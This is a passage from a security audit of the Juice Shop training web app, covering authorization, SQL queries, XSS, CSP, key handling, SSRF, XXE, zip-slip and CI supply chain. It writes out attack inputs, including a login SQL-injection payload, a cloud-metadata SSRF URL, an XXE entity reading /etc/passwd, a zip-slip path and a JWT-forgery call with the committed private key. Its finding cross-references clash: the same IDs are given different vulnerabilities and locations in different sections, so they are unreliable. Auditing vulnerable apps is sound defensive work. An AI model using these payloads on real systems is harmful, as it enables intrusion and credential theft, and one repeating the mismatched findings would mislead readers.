**Status:** 🔴 Missing - no route on the backend validates that the requesting user owns or is permitted to access the addressed object; basket, order, and profile endpoints accept any numeric ID.

Object-level authorization would require each route that addresses a user-owned resource (basket, order, address, payment card) to verify that `req.user.data.id` matches the resource owner before returning or modifying data. Express applies `security.isAuthorized()` on basket routes to confirm login presence, but the middleware adds no ownership check.

**Security assessment**

`GET /rest/basket/:id` and `DELETE /api/BasketItems/:id` apply `isAuthorized()` to confirm a valid JWT, but `req.user.data.id` is never compared to the `UserId` foreign key on the requested basket. Any authenticated user can substitute another user's basket ID in the path and read or modify that basket. The same pattern applies to address and order endpoints. This is a structural gap - there is no centralised ownership-check middleware or per-route ownership assertion anywhere in `routes/`.

**Relevant findings**

- 🔴 [F-007](#f-007) — Basket endpoints enforce login presence but not basket ownership, allowing IDOR across user baskets.
- 🔴 [F-014](#f-014) — Order and address routes share the same missing ownership-check pattern.
- 🟠 [F-024](#f-024) — Role mass-assignment at registration compounds the authorization gap by allowing self-elevation before IDOR is exercised.

### 7.5 Query Construction and Data Access Controls

**Verdict:** 🟠 Weak - Sequelize ORM handles most data access safely, but the login and product-search routes bypass the ORM with raw SQL string interpolation.

**Controls covered:**

- [7.5.1 Parameterized Queries / ORM](#751-parameterized-queries-orm)

**Implemented controls:** Sequelize ORM with parameterized `findOne`, `findAll`, `create`, and `update` calls across most routes; `models/` directory defining typed Sequelize models for Users, Products, Baskets, Orders, and related entities.

**Assessment:** The Sequelize ORM provides parameterized queries by default for most data access paths. Two routes - login and product search - step outside the ORM to call `models.sequelize.query()` with template-literal SQL, introducing SQL injection at the highest-traffic and most security-sensitive points in the application.

<a id="parameterized-queries-orm"></a>
#### 7.5.1 Parameterized Queries / ORM

**Status:** 🟡 Partial - Sequelize parameterized queries are used throughout most of the application, but `routes/login.ts:34` and `routes/search.ts` bypass the ORM with raw SQL template literals.

Sequelize 6.37.3 backs data access for user profiles, products, baskets, orders, and feedback through typed model methods (`UserModel.findOne()`, `ProductModel.findAll()`, etc.) that emit parameterized queries to SQLite. The two exception paths call `models.sequelize.query()` directly, passing a string built from template-literal interpolation of user-supplied values.

The SQL injection in the login route shows the raw-query pattern:

```ts
models.sequelize.query(
  `SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`,
  { model: UserModel, plain: true }
)
```

**Security assessment**

The ORM boundary is broken at the two most security-critical routes. `routes/login.ts:34` interpolates `req.body.email` directly into the WHERE clause; a payload of `' OR '1'='1' --` returns the first user row and grants an admin session. `routes/search.ts` builds the product-search LIKE clause from the `q` query parameter with the same pattern. Both raw-query paths share `models.sequelize.query()` as the sink; the fix for both is to replace template-literal interpolation with `?` bind parameters.

**Relevant findings**

- 🔴 [F-005](#f-005) — SQL injection in the product-search route via raw `models.sequelize.query()` call in `routes/search.ts`.
- 🔴 [F-006](#f-006) — SQL injection in the login route at `routes/login.ts:34`; authentication bypass via single-quote payload.

### 7.6 Input Boundary Validation Controls

**Verdict:** 🟠 Weak - Express body-parser limits requests to 100 KB and `sanitize-html` is applied selectively on feedback routes, but no schema validation covers the bulk of API endpoints.

**Controls covered:**

- [7.6.1 Validation Approach](#761-validation-approach)
- [7.6.2 Server-Side Input Validation](#762-server-side-input-validation)
- [7.6.3 File Upload Validation](#763-file-upload-validation)

**Implemented controls:** Express `body-parser` with 100 KB body limit (`server.ts:108`), `sanitize-html` applied to feedback and review text fields, `multer` file-size check for uploads, filename sanitization via `sanitize-filename`.

**Assessment:** Input validation is applied selectively rather than systematically. The primary enforcement points are the body-size cap and per-route sanitization on text fields. There is no schema-validation middleware (e.g. Joi, Zod, express-validator) applied globally or at the route level for typed parameters; unvalidated numeric IDs, URLs, and JSON structures are accepted by most routes.

<a id="validation-approach"></a>
#### 7.6.1 Validation Approach

**Status:** 🟠 Weak - validation is applied ad-hoc (body-size cap, selective sanitizer calls) with no systematic schema-validation layer covering API inputs.

Express `body-parser` is configured in `server.ts:108-109` with a 100 KB limit for JSON and URL-encoded bodies. `sanitize-html` is invoked in feedback and review routes to strip disallowed tags. For most routes, inputs are consumed as-typed without schema coercion, allowlist validation, or type enforcement.

**Security assessment**

The absence of a centralized validation layer means that each route is responsible for its own input hygiene - and most routes do not perform any. The `Socket.IO` connection handler in `registerWebsocketEvents.ts:21` accepts connections without a rate-limit or authentication gate. User-supplied values including object IDs, URLs, and JSON keys are passed directly to SQL queries, XML parsers, ZIP extractors, and `eval()` calls without prior validation. A schema-validation middleware applied at the route level would have contained the SQL injection, XXE, and SSRF findings before they reached their respective sinks.

**Relevant findings**

- 🟡 [F-064](#f-064) — No rate-limiting or connection cap on the unauthenticated `Socket.IO` endpoint at `registerWebsocketEvents.ts:21`.

<a id="server-side-input-validation"></a>
#### 7.6.2 Server-Side Input Validation

**Status:** 🟠 Weak - `sanitize-html` and `sanitize-filename` are applied on specific routes, but the majority of endpoints accept unconstrained input with no server-side type or schema check.

`sanitize-html` is applied in the feedback and product-review routes. `sanitize-filename` is called on uploaded filenames. The `server.ts` body-parser applies a 100 KB size cap globally.

**Security assessment**

Server-side validation is limited to a handful of routes; no validation middleware intercepts the login, search, profile-image URL, XML upload, or ZIP upload paths. The absence of URL validation on the profile-image endpoint is the proximate cause of the SSRF finding (🟠 [F-021](#f-021) — XXE: XML parsed with external entities enabled — `routes/fileUpload.ts:83`): `routes/profileImageUrlUpload.ts:24` calls `fetch(url)` with no allowlist or scheme check. The absence of numeric-type enforcement on resource IDs is the structural enabler of the IDOR finding (🔴 [F-007](#f-007) — Insecure Direct Object Reference — `routes/address.ts:11` / 🔴 [F-014](#f-014) — Zip-Slip path traversal in complaint zip extraction — `routes/fileUpload.ts:44`).

**Relevant findings**

- 🟡 [F-064](#f-064) — No input rate-limit or validation on WebSocket event data; catastrophic-backtracking regex at `registerWebsocketEvents.ts:46` (🟠 [F-035](#f-035) — Catastrophic-backtracking regex on client data — `registerWebsocketEvents.ts:46`) is also a server-side input-validation gap.

<a id="file-upload-validation"></a>
#### 7.6.3 File Upload Validation

**Status:** 🟠 Weak - `multer` enforces a file-size limit and `sanitize-filename` sanitizes the stored filename, but the ZIP extraction path does not validate entry paths against a safe prefix, enabling zip-slip writes.

File uploads are handled by `multer` middleware which enforces a 100 KB size limit and stores files in memory (buffer). `routes/fileUpload.ts` dispatches to separate handlers for ZIP and XML content types. `sanitize-filename` is called on the original filename before it is written to `os.tmpdir()`.

**Security assessment**

The ZIP handler in `routes/fileUpload.ts:39` pipes the uploaded buffer through `unzipper.Parse()` and writes each entry to `uploads/complaints/` using the entry's embedded path (`entry.path`) without stripping `../` sequences. The guard `absolutePath.includes(path.resolve('.'))` at line `fileUpload.ts:43` is a substring match - a crafted entry path can produce an `absolutePath` that includes the project root as a substring while still resolving outside it (e.g. `../../ftp/legal.md`). The `libxmljs2` XML parser is additionally configured with `noent: true` at `fileUpload.ts:83`, enabling external entity resolution (XXE) on XML uploads.

**Relevant findings**

- 🟡 [F-064](#f-064) — File upload lacks entry-path normalization; zip-slip write to `ftp/legal.md` is the confirmed exploitation path.

### 7.7 Output Encoding and Rendering Controls

**Verdict:** 🟠 Weak - Angular's default template escaping protects most rendering paths, but `DomSanitizer.bypassSecurityTrustHtml()` is called on user-controlled data in two search-result component paths, bypassing the framework's escaping entirely.

**Controls covered:**

- [7.7.1 XSS Prevention](#771-xss-prevention)

**Implemented controls:** Angular template interpolation (`{{ }}`) applies automatic HTML encoding on all bound values; `DomSanitizer` is imported and used in several components; `sanitize-html` is applied in feedback and review text routes on the backend.

**Assessment:** Angular's default rendering pipeline is the primary XSS prevention layer. The framework escapes all values bound through `{{ }}` interpolation and property bindings by default. The two bypass calls in `search-result.component.ts` opt out of that protection for user-controlled values - one from a database-sourced product description, one from a URL query parameter - exposing persistent and reflected XSS sinks.

<a id="xss-prevention"></a>
#### 7.7.1 XSS Prevention

**Status:** 🟡 Partial - Angular template escaping holds for most of the application, but `bypassSecurityTrustHtml()` is called on product descriptions from the database (`search-result.component.ts:110`) and on URL query parameters (`search-result.component.ts:143`), creating persistent and DOM-based XSS sinks.

Angular 21.2.1 provides XSS protection through its template compiler, which encodes all values bound via `{{ }}` and attribute bindings before inserting them into the DOM. `DomSanitizer` is injected in `search-result.component.ts:41` and used to mark HTML as trusted before binding.

The two `bypassSecurityTrustHtml()` calls that defeat Angular's default XSS prevention:

```ts
// Persistent XSS — product description from DB
tableData[i].description = this.sanitizer.bypassSecurityTrustHtml(tableData[i].description)

// DOM XSS — URL query parameter
this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam)
```

**Security assessment**

`search-result.component.ts:110` calls `bypassSecurityTrustHtml()` on `tableData[i].description`, which is a product description column fetched from the SQLite database. Any stored HTML in that column is rendered unescaped in the search-result table - an attacker who can write to a product description (via the admin product-edit endpoint) gets persistent XSS on every search page load. `search-result.component.ts:143` applies the same bypass to the `q` URL query parameter, producing a reflected/DOM XSS sink that is exploitable via a crafted search URL.

**Relevant findings**

- 🔴 [F-017](#f-017) — Persistent XSS via `bypassSecurityTrustHtml()` on database-sourced product description at `search-result.component.ts:110`.
- 🔴 [F-018](#f-018) — DOM XSS — `search-result.component.ts:143` via `bypassSecurityTrustHtml()` on URL query parameter `q` at `search-result.component.ts:143`.
- 🔴 [F-052](#f-052) — Additional `innerHTML` sink in `hacking-instructor/index.ts` used for hint display (intentional challenge context, but same DOM-write pattern).

### 7.8 Browser and Cross-Origin Controls

**Verdict:** 🔴 Missing - no `Content-Security-Policy` header is set on API or SPA responses; CSRF protection is absent; `X-Frame-Options` is applied by Helmet but may be weakened by the custom CSP override in `routes/userProfile.ts`.

**Controls covered:**

- [7.8.1 Content Security Policy](#781-content-security-policy)
- [7.8.2 CSRF Protection](#782-csrf-protection)
- [7.8.3 Clickjacking Prevention](#783-clickjacking-prevention)

**Implemented controls:** `helmet.noSniff()` sets `X-Content-Type-Options: nosniff`; `helmet.frameguard()` sets `X-Frame-Options: SAMEORIGIN` globally; CORS middleware (`cors()`) is applied in `server.ts:182-183`.

**Assessment:** Helmet is applied in `server.ts:186-187` but only the `noSniff` and `frameguard` presets are enabled; `helmet()` with default configuration (which includes CSP and HSTS) is not called. The CORS middleware at `server.ts:183` allows all origins with no credential or method restriction, making the API accessible from any origin. No CSRF token mechanism is implemented.

<a id="content-security-policy"></a>
#### 7.8.1 Content Security Policy

**Status:** 🟡 Partial - a CSP string is constructed in `routes/userProfile.ts:88`, but it is permissive (`unsafe-eval` allowed) and applies only to the user-profile page; no global CSP header is set for the SPA or API responses.

Express applies Helmet middleware in `server.ts:186`, but the call is `helmet.noSniff()` and `helmet.frameguard()` - the full `helmet()` default bundle (which includes `contentSecurityPolicy`) is not invoked. A custom CSP string is constructed at `routes/userProfile.ts:88`: `` `img-src 'self' ${user?.profileImage}; script-src 'self' 'unsafe-eval'` ``.

**Security assessment**

The global absence of a `Content-Security-Policy` header means the SPA's script execution is unconstrained - stored XSS payloads (🔴 [F-017](#f-017) — Stored XSS — `last-login-ip.component.ts:39`) can load resources from any origin and exfiltrate the `localStorage` JWT. The custom CSP on the user-profile page is counter-productive: it interpolates `user.profileImage` directly into the `img-src` directive, and the `unsafe-eval` script-src directive is required by an intentional XSS challenge rather than by application necessity. A strict CSP with `nonce`-based script allowlisting or a hash-based policy would constrain the impact of the stored and DOM XSS findings.

**Relevant findings**

- 🔴 [F-072](#f-072) — No global Content-Security-Policy header; `helmet.contentSecurityPolicy()` is not enabled in `server.ts`.

<a id="csrf-protection"></a>
#### 7.8.2 CSRF Protection

**Status:** 🔴 Missing - no CSRF token mechanism exists; the API relies entirely on the `Authorization: Bearer` header, which provides CSRF protection only when the token is stored in `localStorage` rather than a cookie, but no enforcement prevents cookie-based credential submission.

Juice Shop's API endpoints accept a Bearer JWT in the `Authorization` header, which browsers do not automatically include in cross-origin requests. No `csurf` middleware, `SameSite` cookie attribute, or `Origin` / `Referer` header validation is applied.

**Security assessment**

The current architecture relies implicitly on the fact that `localStorage`-stored tokens are not sent automatically by the browser in cross-origin requests. This is not a CSRF defense - it is a side effect of the `localStorage` storage choice. If any endpoint begins accepting session cookies (e.g. after moving to the BFF pattern recommended by the SPA without BFF anti-pattern), the absence of CSRF tokens becomes an active vulnerability. The `cors()` middleware at `server.ts:183` allows all origins with default settings, removing the last implicit constraint on cross-origin state-changing requests.

**Relevant findings**

- 🔴 [F-072](#f-072) — No CSRF token enforcement on state-changing API endpoints.

<a id="clickjacking-prevention"></a>
#### 7.8.3 Clickjacking Prevention

**Status:** 🟡 Partial - `helmet.frameguard()` sets `X-Frame-Options: SAMEORIGIN` globally, but the user-profile CSP at `routes/userProfile.ts:88` does not include `frame-ancestors`, leaving the profile page's framing policy undefined by the modern CSP mechanism.

`helmet.frameguard()` is applied in `server.ts:187` and emits `X-Frame-Options: SAMEORIGIN` on all responses, preventing the SPA from being embedded in a cross-origin frame. The custom CSP set on the user-profile page route does not include a `frame-ancestors` directive.

**Security assessment**

The `X-Frame-Options: SAMEORIGIN` header provides baseline clickjacking protection for the SPA. The user-profile route constructs a custom `Content-Security-Policy` that replaces the Helmet defaults but omits `frame-ancestors`, relying on the legacy `X-Frame-Options` header for that page. Modern browsers prefer `frame-ancestors` in CSP over `X-Frame-Options`; when a page sets a CSP without `frame-ancestors`, some browser versions treat the `X-Frame-Options` header as overridden. The practical risk is low given the existing `SAMEORIGIN` header, but the inconsistency is a signal of missing policy-layer coordination.

**Relevant findings**

- 🔴 [F-072](#f-072) — The absence of a global CSP means `frame-ancestors` is undefined application-wide; framing protection depends entirely on the legacy `X-Frame-Options` header.

### 7.9 Cryptography Secrets and Data Protection

**Verdict:** 🔴 Missing - the RSA private key for JWT signing and the HMAC key for security-answer storage are both committed in plaintext to source; passwords are stored as unsalted `MD5` hashes; sensitive user data (credit card numbers) is stored unencrypted at rest.

**Controls covered:**

- [7.9.1 Secret and Key Management](#791-secret-and-key-management)
- [7.9.2 Password Hashing](#792-password-hashing)
- [7.9.3 Transport Encryption](#793-transport-encryption)

**Implemented controls:** `RS256` algorithm for JWT signing (asymmetric key pair); HMAC-SHA256 for security answer storage; HTTPS is available when deployed behind a TLS-terminating proxy.

**Assessment:** Every cryptographic primitive in use is architecturally sound (`RS256`, HMAC-SHA256), but each one is defeated by key-material committed to the source repository. The signing key boundary and the secret-answer boundary are broken before any token is issued or any answer is compared. Password hashing uses `MD5` with no salt, which is not a password-hashing function.

<a id="secret-and-key-management"></a><a id="secret-management"></a>
#### 7.9.1 Secret and Key Management

**Status:** 🔴 Unsafe - the RSA private key for JWT signing is committed as a string literal in `lib/insecurity.ts:23`; the HMAC key `pa4qacea4VK9t9nGv7yZtwmj` for security answers is committed at `lib/insecurity.ts:44`; both are in the public repository.

Key material in Juice Shop is embedded directly in `lib/insecurity.ts`. The RSA private key (2048-bit) is a string literal assigned to `const privateKey` at line 23; the public key is loaded from `encryptionkeys/jwt.pub` via `fs.readFileSync`. The HMAC key used to hash security question answers is the literal string `pa4qacea4VK9t9nGv7yZtwmj` passed directly to `crypto.createHmac()` at line 44.

The hardcoded HMAC key at the point of use:

```ts
export const hmac = (data: string) =>
  crypto.createHmac('sha256', 'pa4qacea4VK9t9nGv7yZtwmj').update(data).digest('hex')
```

**Security assessment**

Both keys are present in the public GitHub repository. The RSA private key enables offline JWT forgery: any caller can sign `{id: 1, email: "admin@juice-sh.op", role: "admin"}` with `jwt.sign(payload, privateKey, {algorithm: 'RS256'})` and the server's `express-jwt` verifier accepts the result. The HMAC key enables pre-computation of every security-answer hash - given any email, the attacker computes `hmac(candidate_answer)` locally and compares to the stored hash at O(1) cost per candidate. Neither key can be rotated without a source change and redeploy.

**Relevant findings**

- 🔴 [F-002](#f-002) — RSA private key committed to source at `lib/insecurity.ts:23`; enables offline JWT forgery.
- 🔴 [F-008](#f-008) — Same hardcoded RSA key finding confirmed from the JWT issuance path.
- 🔴 [F-020](#f-020) — HMAC key for security answers hardcoded at `lib/insecurity.ts:44`; enables pre-computation of all stored answer hashes.

<a id="password-hashing"></a>
#### 7.9.2 Password Hashing

**Status:** 🔴 Unsafe - passwords are hashed with `crypto.createHash('md5')` in `lib/insecurity.ts` with no salt; `MD5` is a general-purpose hash function, not a password-hashing algorithm, and unsalted `MD5` hashes are reversible via rainbow tables.

`security.hash()` in `lib/insecurity.ts` is the single password-hashing function used application-wide. It calls `crypto.createHash('md5').update(data).digest('hex')` with no salt parameter. This function is called both at registration (to store the initial password) and at login (to hash the submitted password for comparison).

The password hashing implementation:

```ts
export const hash = (data: string) =>
  crypto.createHash('md5').update(data).digest('hex')
```

**Security assessment**

`MD5` produces a 128-bit digest and runs at billions of hashes per second on commodity GPU hardware. Without a per-user salt, every user with the same password has the same stored hash - rainbow tables cover the most common passwords instantly. A database breach exposes credentials in plaintext-equivalent form. The correct replacement is `bcrypt`, `argon2id`, or `scrypt` with a per-user salt and a work factor tuned to limit the hash rate to tens of hashes per second.

**Relevant findings**

- 🔴 [F-002](#f-002) — Unsalted MD5 hashing allows offline credential recovery from any `Users` table breach.
- 🔴 [F-008](#f-008) — The same hash function is used in the login query, so the SQL injection finding (🔴 [F-003](#f-003) — Insecure JWT Verification — `lib/insecurity.ts:57`) also bypasses the hashing step entirely.
- 🔴 [F-020](#f-020) — Security answers use the same hash function via `security.hmac()`, sharing the key-hardcoding weakness.

<a id="transport-encryption"></a>
#### 7.9.3 Transport Encryption

**Status:** 🟡 Partial - the application itself does not terminate TLS; it listens on HTTP port 3000 and relies on a deployment-level TLS proxy for encryption in transit. No HSTS header is emitted.

Juice Shop starts an HTTP server on port 3000 (`server.ts`). TLS termination is a deployment concern - the Dockerfile exposes port 3000 and the official Docker image is documented to be run behind a reverse proxy (nginx, Caddy, or a cloud load balancer) for HTTPS. The Helmet middleware in `server.ts` does not call `helmet.hsts()`, so no `Strict-Transport-Security` header is emitted even when deployed behind HTTPS.

**Security assessment**

 The `localStorage`-stored JWT and all credential submissions travel in cleartext in those environments. Even in HTTPS-terminated deployments, the absence of an HSTS header (`max-age`, `includeSubDomains`, `preload`) leaves the first connection to the domain vulnerable to SSL-strip downgrade attacks. Adding `helmet.hsts({ maxAge: 31536000, includeSubDomains: true })` in `server.ts` would address the header gap without requiring changes to the deployment topology.

**Relevant findings**

- 🔴 [F-002](#f-002) — Hardcoded RSA key means that even encrypted transport does not protect JWT confidentiality once the key is known.
- 🔴 [F-008](#f-008) — Same key material gap applies to HTTPS-terminated deployments.
- 🔴 [F-020](#f-020) — Credential and security-answer transmission over HTTP in non-proxied deployments exposes plaintext values.

### 7.10 File Parser and Outbound Request Controls

**Verdict:** 🔴 Missing - no allowlist or scheme validation constrains the profile-image URL fetch; XML files are parsed with external-entity resolution enabled (`noent: true`); ZIP extraction does not canonicalize entry paths against the destination directory.

**Controls covered:**

- [7.10.1 Server-Side Request Forgery Prevention](#7101-server-side-request-forgery-prevention)
- [7.10.2 XML/ZIP Parser Hardening](#7102-xmlzip-parser-hardening)

**Implemented controls:** `multer` file-size limit (100 KB); `sanitize-filename` applied to upload filenames; `unzipper` used for ZIP content; `libxmljs2` used for XML parsing.

**Assessment:** Each of the three inbound-file-handling paths has a distinct structural weakness: the URL-upload path performs an unconstrained outbound HTTP fetch, the XML path enables external-entity resolution, and the ZIP path does not guard against path traversal in entry names.

<a id="server-side-request-forgery-prevention"></a>
#### 7.10.1 Server-Side Request Forgery Prevention

**Status:** 🔴 Missing - `routes/profileImageUrlUpload.ts:24` calls `fetch(url)` with the user-supplied URL directly, with no scheme allowlist, hostname allowlist, or private-range block.

`routes/profileImageUrlUpload.ts` allows authenticated users to supply a URL as their profile image. The route extracts `req.body.imageUrl`, performs an SSRF-challenge flag check (for the training game), and then calls `await fetch(url)` directly. The response body is streamed to disk under the user's profile-image path.

**Security assessment**

No validation occurs between receiving `imageUrl` and calling `fetch()`. A user can supply `http://169.254.169.254/latest/meta-data/` (AWS IMDS) or `http://localhost:9229/` (Node\.js debug port) and the server will fetch and store the response. The only observable guard is the `url.match(/(.)*solve\/challenges\/server-side(.)*/)` check, which exists to award a game challenge and provides no security. A correct SSRF prevention control would enforce an allowlist of permitted hostnames or schemes and block RFC-1918 and link-local address ranges.

**Relevant findings**

- 🟠 [F-021](#f-021) — SSRF via `fetch(url)` in `routes/profileImageUrlUpload.ts:24`; no allowlist or private-range block.
- 🟠 [F-022](#f-022) — Redirect in the same route accepts arbitrary Location header targets, extending the SSRF surface.
- 🔴 [F-038](#f-038) — Open redirect in the `allowlist`-keyed redirect route uses substring matching, allowing bypass via crafted URLs.

<a id="xmlzip-parser-hardening"></a>
#### 7.10.2 XML/ZIP Parser Hardening

**Status:** 🔴 Missing - `libxmljs2` is called with `noent: true` at `routes/fileUpload.ts:83`, enabling external entity resolution (XXE); ZIP entries are extracted to `uploads/complaints/` using the unmodified embedded path without canonicalization.

`routes/fileUpload.ts` routes XML uploads through `libxmljs2.parseXml()` via a VM sandbox and routes ZIP uploads through `unzipper.Parse()`. File-type detection gates the two paths by checking the file extension.

The XXE-enabled parser call:

```ts
const xmlDoc = vm.runInContext(
  'libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })',
  sandbox, { timeout: 2000 }
)
```

**Security assessment**

`noent: true` instructs `libxmljs2` to resolve external entity references (`<!ENTITY xxe SYSTEM "file:///etc/passwd">`), enabling file-read and SSRF via XML upload. The VM sandbox provides no isolation from the filesystem or network - it only prevents access to the outer Node\.js scope. The ZIP handler at `fileUpload.ts:43` uses `absolutePath.includes(path.resolve('.'))` as a path-traversal guard, but `includes()` is a substring test; an entry path like `../../ftp/legal.md` resolves to an absolute path that contains the project root as a substring while still being outside the intended destination. The correct fix for ZIP is `path.relative(destDir, absolutePath).startsWith('..')` and for XML is `noent: false`.

**Relevant findings**

- 🟠 [F-021](#f-021) — XXE via `libxmljs2` `noent: true` at `routes/fileUpload.ts:83`.
- 🟠 [F-022](#f-022) — Zip-slip path traversal via substring-match guard at `routes/fileUpload.ts:43`.
- 🔴 [F-038](#f-038) — Open redirect enabled by the same substring-match pattern in the redirect allowlist.

### 7.11 Operations Runtime and Supply Chain Controls

**Verdict:** 🔴 Missing - no automated dependency-update tooling (Dependabot/Renovate) is configured; `.npmrc` sets `package-lock=false`, disabling lockfile generation; third-party GitHub Actions in several workflows use mutable tag references rather than commit SHA pins; the CI workflow has no top-level `permissions:` block on most jobs.

**Controls covered:**

- [7.11.1 Dependency Integrity](#7111-dependency-integrity)
- [7.11.2 CI/CD Pipeline Hardening](#7112-cicd-pipeline-hardening)
- [7.11.3 Container Runtime Hardening](#7113-container-runtime-hardening)
- [7.11.4 Logging and Audit](#7114-logging-and-audit)
- [7.11.5 Automated SCA scanning](#7115-automated-sca-scanning)
- [7.11.6 Automated dependency updates](#7116-automated-dependency-updates)
- [7.11.7 Lockfile hygiene](#7117-lockfile-hygiene)

**Implemented controls:** Distroless final container image (`gcr.io/distroless/nodejs24-debian13`) with non-root `USER 65532`; CodeQL SAST workflow in `.github/workflows/codeql-analysis.yml`; OWASP ZAP DAST workflow in `.github/workflows/zap_scan.yml`; `npm install --ignore-scripts` in `ci.yml:36,38` mitigates postinstall script execution in CI; `actions/checkout` and `actions/setup-node` in `ci.yml` are SHA-pinned.

**Assessment:** The container runtime posture is the single strongest positive control in this section - distroless base image with a non-root user meaningfully constrains post-exploitation. The supply-chain controls around dependency management and workflow permissions are the weakest: lockfile generation is disabled at the repository level, no automated dependency-update PR bot is configured, and several third-party actions are pinned only to mutable semver tags.

<a id="dependency-integrity"></a>
#### 7.11.1 Dependency Integrity

**Status:** 🟠 Weak - `package.json` specifies dependency versions but `.npmrc` sets `package-lock=false`, disabling the lockfile that would otherwise pin transitive dependencies to verified resolved versions.

`package.json` lists 50+ production dependencies with semver range specifiers. A `package-lock.json` would normally pin each transitive dependency to a specific resolved version and integrity hash. `.npmrc:1` sets `package-lock=false`, so no lockfile is generated or committed; every `npm install` resolves fresh semver ranges from the registry.

**Security assessment**

Without a lockfile, transitive dependency versions float within the declared semver ranges on every install. A malicious patch to a transitive dependency released within the semver range is picked up silently on the next CI run or deployment. `npm install --ignore-scripts` in CI (`ci.yml:36,38`) mitigates postinstall script execution but does not constrain which version of each package is resolved. The fix is to remove `package-lock=false` from `.npmrc`, commit the resulting `package-lock.json`, and use `npm ci` in CI to enforce the locked versions.

**Relevant findings**

- 🟠 [F-023](#f-023) — `.npmrc:1` sets `package-lock=false`; transitive dependency versions are not pinned.
- 🟠 [F-025](#f-025) — Third-party GitHub Actions in `image_actions.yml` use mutable tag references (`@main`, `@v8`) rather than SHA pins.
- 🟠 [F-026](#f-026) — Dockerfile base images (`node:24`, `gcr.io/distroless/nodejs24-debian13`) are not pinned to a digest.

<a id="cicd-pipeline-hardening"></a>
#### 7.11.2 CI/CD Pipeline Hardening

**Status:** 🟠 Weak - `ci.yml` pins `actions/checkout` and `actions/setup-node` to commit SHAs, but `image_actions.yml` references `calibreapp/image-actions@main` (mutable branch), `peter-evans/create-pull-request@v8` (mutable tag), and `actions/checkout@v6` (mutable tag); no top-level `permissions:` block restricts workflow token scope in most jobs.

The GitHub Actions workflows in `.github/workflows/` constitute the CI/CD pipeline. `ci.yml` handles build, test, and coverage; `release.yml` handles Docker image publishing; `codeql-analysis.yml` and `zap_scan.yml` handle SAST and DAST.

**Security assessment**

The absence of a top-level or job-level `permissions:` block on most workflow files means that each job receives the default token scope, which may include `contents: write` on workflows that only need `contents: read`. `release.yml:65` uses a long-lived `NPM_TOKEN` repository secret for npm publish rather than an OIDC federation token (keyless signing); the secret persists across all runs and is rotatable only manually. `calibreapp/image-actions@main` is a branch reference - the action's HEAD changes on every push to `main` in the external repository, and CI will silently adopt those changes. SHA pinning (`@<commit-sha>`) and a minimum-permission `permissions:` block at the job level are the two controls that close the most surface here.

**Relevant findings**

- 🟠 [F-023](#f-023) — Missing or insufficient `permissions:` block on CI jobs.
- 🟠 [F-025](#f-025) — Mutable action references (`@main`, `@v8`, `@v6`) allow upstream action changes to be silently adopted.
- 🟠 [F-026](#f-026) — Long-lived `NPM_TOKEN` in `release.yml:65` instead of OIDC federation.

<a id="container-hardening"></a><a id="container-runtime-hardening"></a>
#### 7.11.3 Container Runtime Hardening

**Status:** 🟡 Partial - the Dockerfile uses a distroless final stage (`gcr.io/distroless/nodejs24-debian13`) and sets `USER 65532` (non-root), which are the two most impactful runtime hardening controls; neither the installer stage image nor the distroless image is pinned to a digest.

The `Dockerfile` is a two-stage build: stage 1 uses `FROM node:24` to install dependencies; stage 2 copies the built artifact to `FROM gcr.io/distroless/nodejs24-debian13` and sets `USER 65532`. Distroless images contain only the Node\.js runtime - no shell, no package manager, no utilities - which dramatically reduces the post-exploitation surface.

**Security assessment**

Distroless + non-root is the strongest security control in the codebase. The absence of a shell and package manager in the final image means that a remote-code-execution payload cannot trivially pivot to installing tools or reading `/etc/shadow`. The gap is that neither `node:24` nor `gcr.io/distroless/nodejs24-debian13` is pinned to an image digest - a rolling `node:24` tag can silently change the installer environment and a rolling distroless tag can change the runtime. Digest pinning (`FROM node:24@sha256:...`) ensures the build is reproducible and a compromised upstream tag does not automatically affect builds.

**Relevant findings**

- 🟠 [F-023](#f-023) — Dockerfile base images not digest-pinned; rolling tags introduce silent supply-chain update surface.
- 🟠 [F-025](#f-025) — `docker-compose.test.yml` uses `bkimminich/juice-shop:latest` — a mutable tag that picks up any image push to the registry.
- 🟠 [F-026](#f-026) — No image signing or attestation (`cosign`, `attest-build-provenance`) on the published Docker image.

<a id="logging-and-audit"></a>
#### 7.11.4 Logging and Audit

**Status:** 🟡 Partial - Winston is configured for application logging, but authentication events (login success/failure, password reset, 2FA enrollment) and admin actions are not emitted as structured audit-log events; the Express `errorhandler` middleware returns full stack traces in non-production environments.

`winston` (`3.16.0`) is initialized as the application logger and emits to stdout. Express route handlers call `logger.warn()` and `logger.error()` for error conditions. Authentication state is tracked in the in-memory `authenticatedUsers` map with no persistence or structured event emission.

**Security assessment**

Login events, password-reset attempts, 2FA enrollment, and JWT validation failures are not emitted as distinct structured log events. An operator reviewing logs after a credential-stuffing campaign has no structured signal for failed logins - only generic Express request logs if `morgan` is enabled. The Express `errorhandler` middleware (`v1.5.1`) returns full stack traces including file paths and line numbers in non-production mode, which leaks internal layout to any client that can trigger a 500 error. Structured audit events for authentication and admin actions are the gap; `errorhandler` should be restricted to the development environment.

**Relevant findings**

- 🟠 [F-023](#f-023) — No audit log for authentication events; Winston is present but not wired to security-relevant actions.
- 🟠 [F-025](#f-025) — `errorhandler` middleware exposes stack traces outside development mode.
- 🟠 [F-026](#f-026) — `Socket.IO` event handler actions are not logged; `registerWebsocketEvents.ts:24` emits no audit events.

<a id="automated-sca-scanning"></a>
#### 7.11.5 Automated SCA scanning

**Status:** 🟢 Adequate - CodeQL SAST scanning runs on push and pull_request via `.github/workflows/codeql-analysis.yml`; OWASP ZAP DAST scanning runs via `zap_scan.yml`; both workflows are present and cover the primary analysis dimensions.

`codeql-analysis.yml` configures GitHub's CodeQL engine to scan TypeScript and JavaScript on `push` and `pull_request` triggers. `zap_scan.yml` runs OWASP ZAP against a running instance of the application. Both workflows upload results to the GitHub Security tab via SARIF format.

**Security assessment**

The SCA scanning posture is the strongest automated-detection control in the project. CodeQL covers source-level SAST (injection, XSS, path traversal) and ZAP covers DAST (runtime discovery). The primary gap is that CodeQL actions (`github/codeql-action/init@v3`, `github/codeql-action/analyze@v3`) use mutable `v3` tag references rather than commit SHA pins - a compromised CodeQL action tag could modify scan results or exfiltrate source to an external endpoint. SHA pinning on the CodeQL actions would close the supply-chain surface for the scanning workflow itself.

**Relevant findings**

- 🟠 [F-023](#f-023) — CodeQL action references are mutable (`@v3`); digest pinning would harden the scanning workflow supply chain.
